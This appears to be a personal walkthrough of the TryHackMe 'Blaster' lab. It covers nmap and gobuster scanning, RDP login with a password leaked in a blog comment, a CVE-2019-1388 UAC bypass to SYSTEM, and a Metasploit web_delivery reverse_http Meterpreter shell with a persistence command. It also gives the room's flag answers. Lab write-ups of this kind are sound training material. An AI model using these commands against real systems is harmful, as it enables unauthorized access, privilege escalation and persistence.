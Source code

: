 # Blaster

author:: Nathan Acks  
date:: 2021-12-06

* [TryHackMe: Blaster](https://tryhackme.com/room/blaster)

## Mission Start!

The CTF background notes that we’ll be attacking a Windows box. So no ping responses again.

## Activate Forward Scanners and Launch Proton Torpedoes

The machine we’ll be attacking is at 10.10.223.185. As usual, we’ll start out with an nmap scan:

```bash
sudo nmap -v -oA blaster -Pn -A -T4 -sS -script vuln \
          -p- 10.10.223.185
```

Which gives us:

```
# Nmap 7.92 scan initiated Wed Dec  8 19:55:54 2021 as: nmap -v -oA blaster -Pn -A -T4 -sS -script vuln -p- 10.10.223.185
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.223.185
Host is up (0.23s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016 (90%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.013 days (since Wed Dec  8 19:54:04 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   34.47 ms  10.13.0.1
2   ... 3
4   351.16 ms 10.10.223.185

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  8 20:12:16 2021 -- 1 IP address (1 host up) scanned in 982.31 seconds
```

FLAG 1: How many ports are open on the target? — 2

Looks like IIS running on port 80. Let’s go take a peek.

…And, it’s just the default IIS “hello world” page. Looks a damn sight prettier than Apache’s.

FLAG 2: What is the title of the webserver’s index page? — IIS Windows Server

Since there’s nothing obvious here (and because the CTF is prompting us to do so), let’s sic gobuster on this to see if there’s anything interesting that’s not linked to the (default) index page.

```bash
gobuster \
	-t 10 dir \
	-w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt \
	-u http://10.10.223.185/
```

FLAG 3: What is the hidden directory on the webserver? — /retro

Browsing to this directory reveals an entire “Retro Fanatics” website. All posts are by “Wade”.

FLAG 4: What username is associated with this hidden directory? — Wade

Pocking around a bit more reveals a somewhat cryptic comment on a post:

> Leaving myself a note here just in case I forget how to spell it: parzival

Who wants to bet that this is Wade’s password?

FLAG 5: What potential password is associated with this user? — parzival

Let’s load up XFreeRDP and see if we can log in, shall we?

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore \
         /v:10.10.223.185 /u:Wade /p:parzival
```

Boom!

FLAG 6: What are the contents of `user.txt`? — `THM{HACK_PLAYER_ONE}`

## Breaching the Control Room

There’s no obvious files when pocking around except an hhupd.exe file on the desktop, and IE’s history is empty.

Since I know we’re looking for a CVE name, at this point I just used the Windows File Explorer to search Wade’s home directory for “CVE”. And lo-and-behold, there’s a cached HTML file in C:/Users/Wade/AppData/Local/Microsoft/Windows/INetCache/Low/IE/7Z6YUWVY called cvename[1].htm which contains a website referencing CVE-2019-1388 (it looks like a slightly older version of the MITRE CVE page on CVE-2019-1388).

FLAG 7: What CVE was the initially compromised user researching? — CVE-2019-1388

(I feel like the approach I just used — making an educated guess about what the CTF was looking for and then just searching for it — is kind of a cop-out. *But*, the hint for this question states that I should check IE’s history, which I did… So perhaps the room’s broken?)

Anyways, I’m guessing that the hhupd.exe file on the desktop is the one that will exploit this vulnerability, since it’s badged as needing administrative privileges and CVE-2019-1388 is a vulnerability in the UAC screen.

FLAG 8: What is the name of the executable the user was experimenting with? — hhupd.exe

In fact, a search for “CVE-2019-1388 exploit” pulls up a page that references hhupd.exe and helpfully links to a YouTube video demoing how this exploit works. It looks like the steps here are:

* Try to run hhupd.exe.
* Show details on the UAC prompt.
* Click on the certificate information link.
* Click on the issuer link. This will open up an instance of IE running with elevated permissions in the background.
* Exit the UAC dialog.
* Bring up the save dialog in IE.
* Navigate to `C:/Windows/System32/*.*` and open cmd.exe.

FLAG 9: What is the output of `whoami` in the terminal spawned using the user’s exploit? — `nt authority\system`

The final flag is in the Administrator’s Desktop folder.

FLAG 10: What are the contents of `root.txt`? — `THM{COIN_OPERATED_EXPLOITATION}`

## Adoption into the Collective

Target information isn’t immediately obvious in Metasploit; after selecting `exploit/multi/script/web_delivery` we’ll need to run `info` to see all of the options.

FLAG 11: What is the target number for PSH when using `exploit/multi/script/web_delivery` in Metasploit? — 2

Let’s set things up and run the exploit:

```msfconsole
set target 2
set SRVHOST 10.13.26.40
set LHOST 10.13.26.40
set payload windows/meterpreter/reverse_http
run -j
```

(NOTE: I found that I needed to set the SRVHOST option to get Metasploit to deliver the exploit on the right interface.)

This particular exploit outputs and encoded PowerShell script and then starts a local listener to deliver the actual Meterpreter shell. All we need to do is cut-and-paste into our elevated shell.

(For whatever reason, I could *only* get this exploit working with the 32-bit version of Meterpreter *and* the `run -j` command. I’m not sure why…)

FLAG 12: What command can be used in Meterpreter to establish on-boot persistence on this machine? — `run persistence -X`

(NOTE: Meterpreter flags this as being deprecated now; the modern pattern seems to be to background Meterpreter and then switch to and exploit the `exploit/windows/local/persistence` module, probably with `set STARTUP SYSTEM`.)

ELAPSED TIME: 2 h 15 min

## References

* [Using “nmap”](nmap.md)
* [Using “gobuster”](gobuster.md)
* [Using XFreeRDP](xfreerdp.md)
* [CVE-2019-1388 (MITRE)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1388)
* [CVE-2019-1388 (nagenrauft-consulting.com)](https://www.nagenrauft-consulting.com/2019/11/21/cve-2019-1388-hhupd-exe/)
* [CVE-2019-1388: Windows Privilege Escalation Through UAC](https://www.youtube.com/watch?v=3BQKpPNlTSo)
* [Using Metasploit](metasploit.md)
* [Using PowerShell](powershell.md)
